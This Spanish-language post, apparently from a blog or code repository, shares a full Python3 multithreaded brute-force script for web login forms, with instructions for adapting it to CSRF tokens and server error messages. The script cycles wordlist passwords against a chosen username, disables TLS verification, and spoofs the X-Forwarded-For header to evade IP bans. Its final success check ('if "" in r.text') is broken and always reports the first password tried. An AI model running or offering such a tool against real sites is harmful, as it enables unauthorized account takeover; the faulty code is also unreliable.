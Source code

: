 # Brute-Force Login With Threads

# [https://pastebin.com/9gW4iGkJ](https://pastebin.com/9gW4iGkJ)

![Untitled](Brute-Force%20Login%20With%20Threads/Untitled.png)

He realizado este script ya que he estado investigando un poco y me parecía que no habían muchos scripts en python3 que realicen fuerza bruta a un login, por eso he decidido compartirlo con vosotros.

Primero que nada os voy a comentar un poco lo que hace este script y como debéis de usarlo ya que no funciona para cualquier pagina, actualmente en esta “version” únicamente funciona contra paginas que tengan o no tengan un tokenCSRF, en caso de que no lo tengan implementado y unicamente se tramite por POST el “username” y el “password” tenéis que cambiar la configuración del script de esta forma:

```python
#Extraccion del token anti-csrf
        #token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            #'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
```

También tenéis que configurar la respuesta del lado del servidor para comprobar si la contraseña es correcta o no lo es, para ello realizareis una petición con unas credenciales incorrectas y veréis el típico error al fallar las credenciales como por ej: “Invalid credentials”, sabiendo la respuesta del lado del servidor configurareis el script de la siguiente forma:

```python
#Configuracion de la respuesta del servidor para averiguar la contraseña
        if "Invalid credentials" not in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
```

Por mi experiencia en la creación del script recomiendo no usar mas de 2 hilos de velocidad (esta puesto 2 hilos por defecto), ya que estos tipos de ataques dependen mucho de la velocidad de respuesta del servidor web, y si le metemos muchos hilos va a ir muy rápido pero no le dará tiempo a comprobar si la contraseña es correcta o no. Todo depende de la velocidad del servidor.

Os dejo por aquí también el script:

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
 
import requests
from pwn import *
import urllib3
import mmap
import argparse
 
from concurrent.futures import ThreadPoolExecutor
  
# CTRL+C
def def_hundler(sig, frame):
    print(Color.RED + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler) 
 
#Colores
class Color:
    CYAN = '\033[96m'
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    END = '\033[0m'
#Funciones
def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-u USERNAME] [-w DICCIONARIO] [-t HILOS]\n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://google.com/login -u admin -w /usr/share/wordlists/rockyou.txt -t 2\n'
    return ussage
 
def arguments():
    parse = argparse.ArgumentParser(usage=usage(), description="Python3 Brute-Force login with threads")
    parse.add_argument('-u', dest='username', type=str, default='', help='Usuario a reventar')
    parse.add_argument('-w', dest='diccionario', type=str, default='', help='Diccionario a usar')
    parse.add_argument('-url', dest='url', type=str, help='URL del login')
    parse.add_argument('-t', dest='threads', type=int, default='2', help='Hilos (Velocidad), Default -> [2]')
    return parse.parse_args()
 
#Funcion para sacar el numero de palabras de un diccionario 
def get_num_lines(diccionario):
    fp = open(diccionario, "r+")
    buf = mmap.mmap(fp.fileno(), 0)
    lines = 0
    while buf.readline():
        lines += 1
    return lines
 
 
def do_login(s, url, username, password, executor, count, total):
 
    try:
        r = s.get(url)
        #Extraccion del token anti-csrf
        token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
        headers_data = {
            #Bypass IP-BAN
            'X-Forwarded-For': '%s' % password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        }
#        proxy = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
        r = s.post(url, data=post_data, headers=headers_data, allow_redirects = True)
        p1.status(Color.BLUE + "Intentando con la contraseña" + Color.RED + " [%d/" %count + "%d] ==>" %total + Color.GREEN + " %s" %password)        
        #Configuracion de la respuesta del servidor para averiguar la contraseña
        if "" in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
 
    except Exception as e:
        print(e)
 
def main(url, username, diccionario, executor):
    try:
        urllib3.disable_warnings()
        s = requests.session()
        s.verify = False
        count = 0
        with open(diccionario, encoding='latin-1') as fp:
            for password in fp.read().splitlines():
                count += 1
                executor.submit(do_login, s, url, username, password, executor, count, total)
    except Exception as e:
        print(e)
 
if __name__ == '__main__':
    print(Color.CYAN + """
██████╗ ██████╗ ██╗   ██╗████████╗███████╗    ███████╗ ██████╗ ██████╗  ██████╗███████╗██████╗ 
██╔══██╗██╔══██╗██║   ██║╚══██╔══╝██╔════╝    ██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝██╔══██╗
██████╔╝██████╔╝██║   ██║   ██║   █████╗█████╗█████╗  ██║   ██║██████╔╝██║     █████╗  ██████╔╝
██╔══██╗██╔══██╗██║   ██║   ██║   ██╔══╝╚════╝██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝  ██╔══██╗
██████╔╝██║  ██║╚██████╔╝   ██║   ███████╗    ██║     ╚██████╔╝██║  ██║╚██████╗███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝    ╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝  ╚═╝ 
        """)
    args = arguments()
    total = get_num_lines(args.diccionario)
    p1 = log.progress(Color.BLUE + "Fuerza Bruta sobre el usuario :" + Color.RED + " %s" % args.username)    
    executor = ThreadPoolExecutor(args.threads)
    main(args.url, args.username, args.diccionario, executor)
```